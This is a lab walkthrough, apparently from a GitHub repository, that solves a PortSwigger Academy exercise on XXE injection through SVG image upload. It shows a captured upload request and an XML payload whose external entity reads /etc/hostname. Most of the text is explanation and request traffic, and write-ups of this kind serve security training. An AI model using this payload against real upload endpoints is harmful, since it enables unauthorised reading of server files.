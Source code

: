 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1470aab9-6096-4a00-9523-fd7a1a3406ec)

## Overview :

#### XXE attacks via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like `DOCX` and image formats like `SVG`.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. **Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities**. 

## Solution :

The image upload functionality is vulnerable to XXE attack.

Since **SVG image formats are XML based, we can try to upload an SVG image & modify the content of the xml to retreive `/etc/passwd`.**

First step is to download any SVG image from the internet - [Link](https://www.svgrepo.com/download/4733/samples.svg)

Upload the image in the comment section.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7f4eed80-8cc9-4725-b0e7-d6e4850f920c)

The request sent is as follows,

```http
POST /post/comment HTTP/2
Host: 0af3001a04d49cc680f98fe600360054.web-security-academy.net
Cookie: session=8CMbZt7nqpnKxX5BWeqFKSaHuf8Y2fep
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------411093510810586854491817040917
Content-Length: 4197
Origin: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net
Referer: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="csrf"

Pug71fV4fPRd07n2oBMA6jMlMZoTS16V
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="postId"

3
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="comment"

This is for testing XXE via SVG file upload
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="name"

shebu
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="avatar"; filename="samples-svgrepo-com.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="iso-8859-1"?>
<!-- Uploaded to: SVG Repo, www.svgrepo.com, Generator: SVG Repo Mixer Tools -->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Capa_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" 
	 viewBox="0 0 297.5 297.5" xml:space="preserve">
<g id="XMLID_40_">
	<g> 
		<path style="fill:#ACBFC7;" d="M277.71,158.52v85.7H19.79v-85.7h6.53v40.54c0,16.98,13.81,30.78,30.78,30.78
			s30.78-13.8,30.78-30.78v-40.54h30.09v40.54c0,16.98,13.81,30.78,30.78,30.78c16.98,0,30.78-13.8,30.78-30.78v-40.54h30.1v40.54
			c0,16.98,13.8,30.78,30.78,30.78c16.97,0,30.78-13.8,30.78-30.78v-40.54H277.71z"/>
		<rect x="218.66" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="229.17" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="137.51" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="127.01" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="35.35" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="45.86" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<path style="fill:#FF4855;" d="M251.65,126.81v72.25c0,6.2-5.05,11.24-11.24,11.24c-6.2,0-11.24-5.04-11.24-11.24v-72.25H251.65z"
			/>
		<path style="fill:#D61616;" d="M68.34,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H68.34z"/>
		<path style="fill:#FFD63F;" d="M159.99,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H159.99z"/>
		<path d="M297.25,148.75v105.24c0,5.4-4.37,9.77-9.77,9.77H10.02c-5.39,0-9.77-4.37-9.77-9.77V148.75c0-5.4,4.38-9.77,9.77-9.77
			h16.3V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07
			c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h30.09V83.35h-0.73c-5.4,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.37-9.77,9.77-9.77h63.03
			c5.39,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.38,9.77-9.77,9.77h-0.74v55.63h30.1V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51
			c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h16.29
			C292.88,138.98,297.25,143.35,297.25,148.75z M277.71,244.22v-85.7h-6.52v40.54c0,16.98-13.81,30.78-30.78,30.78
			c-16.98,0-30.78-13.8-30.78-30.78v-40.54h-30.1v40.54c0,16.98-13.8,30.78-30.78,30.78c-16.97,0-30.78-13.8-30.78-30.78v-40.54
			H87.88v40.54c0,16.98-13.81,30.78-30.78,30.78s-30.78-13.8-30.78-30.78v-40.54h-6.53v85.7H277.71z M262.15,63.81V53.28h-43.49
			v10.53H262.15z M251.65,199.06v-72.25h-22.48v72.25c0,6.2,5.04,11.24,11.24,11.24C246.6,210.3,251.65,205.26,251.65,199.06z
			 M251.65,107.27V83.35h-22.48v23.92H251.65z M170.5,63.81V53.28h-43.49v10.53H170.5z M159.99,199.06v-72.25h-22.48v72.25
			c0,6.2,5.04,11.24,11.24,11.24S159.99,205.26,159.99,199.06z M159.99,107.27V83.35h-22.48v23.92H159.99z M78.84,63.81V53.28H35.35
			v10.53H78.84z M68.34,199.06v-72.25H45.86v72.25c0,6.2,5.04,11.24,11.24,11.24S68.34,205.26,68.34,199.06z M68.34,107.27V83.35
			H45.86v23.92H68.34z"/>
	</g>
	<g>
	</g>
</g>
</svg>
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="email"

shebuheckur@shebu.com
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="website"

https://sh3bu.gitihub.io
-----------------------------411093510810586854491817040917--
```
In this remove all the <svg> tag contents and repalce with this [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

We get a `302 Redirect` which means the file upload is successful.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0320f2b4-b80e-4f1d-9bea-74f94330091e)

We can see the image has been uploaded as avatar

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/efd6ba9d-b8c6-42ad-982b-beb3eb56416f)


Click on the image & open it in new tab to view the o/p of /etc/hostname command.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09aa29ba-e434-4778-8709-865e48ffa086)

Submit the name of the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0bc2f8f6-659c-4dba-973c-fd54f8739d32)







